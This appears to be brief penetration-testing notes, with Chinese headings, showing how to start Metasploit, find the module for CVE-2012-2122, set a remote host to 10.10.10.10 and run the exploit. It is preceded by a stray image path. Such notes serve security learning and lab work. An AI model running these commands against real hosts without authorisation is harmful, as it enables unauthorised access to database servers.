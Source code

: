 ### 启动
 
    msfconsole

### 搜索cve

    search cve:CVE-2012-2122

    use 0

    show options

    set rhost 10.10.10.10

    run

